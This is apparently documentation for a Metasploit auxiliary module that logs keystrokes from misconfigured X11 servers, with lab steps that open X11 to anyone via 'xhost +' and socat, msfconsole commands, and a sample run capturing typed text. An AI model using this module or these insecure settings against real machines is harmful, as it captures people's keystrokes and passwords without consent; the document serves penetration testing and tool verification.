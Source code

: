 ## Vulnerable Application

This module binds to an open X11 host to log keystrokes. The X11 service can accept
connections from any users when misconfigured with the command `xhost +`.
This module is a close copy of the old xspy c program which has been on Kali for a long time.
The module works by connecting to the X11 session, creating a background
window, binding a keyboard to it and creating a notification alert when a key
is pressed.

One of the major limitations of xspy, and thus this module, is that it polls
at a very fast rate, faster than a key being pressed is released (especially before
the repeat delay is hit). To combat printing multiple characters for a single key
press, repeat characters arent printed when typed in a very fast manor. This is also
an imperfect keylogger in that keystrokes arent stored and forwarded but status
displayed at poll time. Keys may be repeated or missing.

### Ubuntu 10.04

1. `sudo nano /etc/gdm/gdm.schemas`
2. Find:

    ```
    <schema>
     <key>security/DisallowTCP</key>
     <signature>b</signature>
     <default>true</default>
    </schema>
    ```
  - Change `true` to `false`

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 12.04, 14.04

1. `sudo nano /etc/lightdm/lightdm.conf`
2. Under the `[SeatDefaults]` area, add:

    ```
    xserver-allow-tcp=true
    allow-guest=true
    ```

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```        	
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 16.04

  Use the Ubuntu 12.04 instructions, however change `SeatDefaults` to `Seat:*`

### Fedora 15

1. `vi /etc/gdm/custom.conf`
2. Under the `[security]` area, add:

    ```
    DisallowTCP=false
    ```

3. logout/reboot
4. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Solaris 10

1. `svccfg -s svc:/application/x11/x11-server setprop options/tcp_listen = true`
2. `svc disable cde-login`
3. `svc enable cde-login`
4. `xhost +`

### Ubuntu 22.04

#### Server

Getting X11 to listen on a TCP port is rather taxing, so we use socat to facilitate instead.

1. `sudo apt-get install ubuntu-desktop socat` # overkill but it gets everything we need
2. `sudo reboot` # prob a good idea since so much was installed
3. `sudo xhost +` # must be done through gui, not through SSH
4. `socat -d -d TCP-LISTEN:6000,fork,bind=<IP to listen to here> UNIX-CONNECT:/tmp/.X11-unix/X0`, you may need to use `X1` instead of `X0` depending on context.

## Verification Steps

1. Configure X11 to listen on port 6000, or use `socat` to open a socket.
1. Start msfconsole
1. Do: `use auxiliary/gather/x11_keyboard_spy`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should print keystrokes as they're pressed

## Options

### ListenerTimeout

How many seconds to keylog for.
If set to `0`, wait forever. Defaults to `600`, 10 minutes.

## Scenarios

### Ubuntu 22.04

```
[*] Processing xspy.rb for ERB directives.
resource (xspy.rb)> use auxiliary/gather/x11_keyboard_spy
resource (xspy.rb)> set verbose true
verbose => true
resource (xspy.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/x11_keyboard_spy) > run
[*] Running module against 127.0.0.1

[*] 127.0.0.1:6000 - Establishing TCP Connection
[*] 127.0.0.1:6000 - [1/9] Establishing X11 connection
[-] 127.0.0.1:6000 - Connection packet malfored (size: 8192), attempting to get read more data
[+] 127.0.0.1:6000 - Successly established X11 connection
[*] 127.0.0.1:6000 - Version: 11.0
[*] 127.0.0.1:6000 - Screen Resolution: 958x832
[*] 127.0.0.1:6000 - Resource ID: 33554432
[*] 127.0.0.1:6000 - Screen root: 1320
[*] 127.0.0.1:6000 - [2/9] Checking on BIG-REQUESTS extension
[+] 127.0.0.1:6000 -   Extension BIG-REQUESTS is present with id 134
[*] 127.0.0.1:6000 - [3/9] Enabling BIG-REQUESTS
[*] 127.0.0.1:6000 - [4/9] Creating new graphical context
[*] 127.0.0.1:6000 - [5/9] Checking on XKEYBOARD extension
[+] 127.0.0.1:6000 -   Extension XKEYBOARD is present with id 136
[*] 127.0.0.1:6000 - [6/9] Enabling XKEYBOARD
[*] 127.0.0.1:6000 - [7/9] Requesting XKEYBOARD map
[*] 127.0.0.1:6000 - [8/9] Enabling notification on keyboard and map
[*] 127.0.0.1:6000 - [9/9] Creating local keyboard map
[+] 127.0.0.1:6000 - All setup, watching for keystrokes
t
e
[space]
q
u
u
i
c
k
[space]
r
o
w
n
[space]
f
o
x
m
p
s
[space]
o
v
e
e
r
r
[space]
t
h
e
[space]
l
a
z
y
[space]
d
o
^C[*] 127.0.0.1:6000 - Closing X11 connection
[+] 127.0.0.1:6000 - Logged keys stored to: /root/.msf4/loot/20240226150211_default_127.0.0.1_x11.keylogger_839830.txt
[-] 127.0.0.1:6000 - Stopping running against current target...
[*] 127.0.0.1:6000 - Control-C again to force quit all targets.
[*] Auxiliary module execution completed
```

## Confirming

To keylog the remote host, we use a tool called [xspy](http://tools.kali.org/sniffingspoofing/xspy)

The output will be very similar to the metasploit module, but may differ. Compare the below two entries (spaces added to xspy for alignment):

```
xspy: the      quck         rown       foxumps      over         the       lazy      do
msf:  te[space]quuick[space]rown[space]foxmps[space]oveerr[space]the[space]lazy[space]do
```
